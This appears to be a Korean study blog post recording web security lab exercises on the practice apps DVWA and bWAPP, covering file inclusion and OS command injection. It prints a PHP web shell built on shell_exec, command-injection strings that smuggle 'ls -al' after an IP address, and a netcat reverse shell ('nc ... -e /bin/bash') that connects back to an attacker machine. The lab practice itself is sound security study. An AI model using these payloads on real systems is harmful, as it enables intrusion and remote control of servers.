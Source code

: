 ```yaml
---
title: "웹 보안 실습 4"
date: 2024-11-24
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## File Inclusion

### LFI

#### DVWA

![](assets/img/정보보안/실습/W_4-1.jpg)

#### BWAPP

![](assets/img/정보보안/실습/W_4-2.jpg)

### RFI

#### BWAPP

1. 칼리 리눅스에 php 파일 생성
    - <?php
    $output = shell_exec($_GET["cmd"]);
    echo "$output";
    ?>
2. 칼리 리눅스 아파치 실행
3. 칼리 리눅스 아파치에 접근하고 명령어를 실행
    ![](assets/img/정보보안/실습/W_4-3.jpg)

---

## 명령어 입력(Command Input) 공격

### DVWA

- low
    1. 8.8.8.8; ls -al
    2. 8.8.8.8 | ls -al

- medium
    1. 8.8.8.8 | ls -al

### BWAPP

- 목적 : BWAPP에서 명령어를 실행하고, 칼리리눅스에 역으로 붙기
    1. 칼리리눅스 nc 명령어 사용해서 리스닝 상태 시작
        - nc -l -p 4444
    2. BWAPP OS Command Injection 명령어 사용해서 칼리리눅스에 연결
        - ; nc 10.10.10.10 4444 -e /bin/bash
    3. 칼리리눅스에서 명령어를 실행하여 연결 여부 확인